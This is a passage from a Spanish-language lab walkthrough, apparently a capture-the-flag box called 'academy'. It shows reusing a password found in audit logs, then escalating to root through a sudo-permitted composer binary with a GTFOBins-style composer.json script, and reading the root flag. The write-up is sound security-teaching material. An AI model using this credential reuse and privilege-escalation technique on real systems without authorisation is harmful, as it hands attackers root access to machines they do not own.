 El informe TTY revela que el usuario `mrb3n` inició sesión con la contraseña `mrb3n_Ac@d3my!` utilizando `su`. 

Entonces, simplemente cambiamos al usuario `cry0l1t3` con su respectiva contraseña.

```bash
cry0l1t3@academy:/var/log/audit$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

## Escalación de privilegios

---

Al ejecutar `sudo -l`, se revela que el usuario `mrb3n` tiene permiso para ejecutar el binario "`composer`" como **root**.

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Hay una entrada en [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) para composer. Se trata de crear un archivo `composer.json` con una propiedad "scripts". 

![composer](composer.png)

Después de introducir estos comandos, logramos obtener un shell como root con éxito y podemos acceder a la flag de root.

```bash
mrb3n@academy:/var/log/audit$ TF=$(mktemp -d)
mrb3n@academy:/var/log/audit$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/var/log/audit$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
root
# cd /root
# cat root.txt
0627e87322b0918f****************
```

!Happy Hacking¡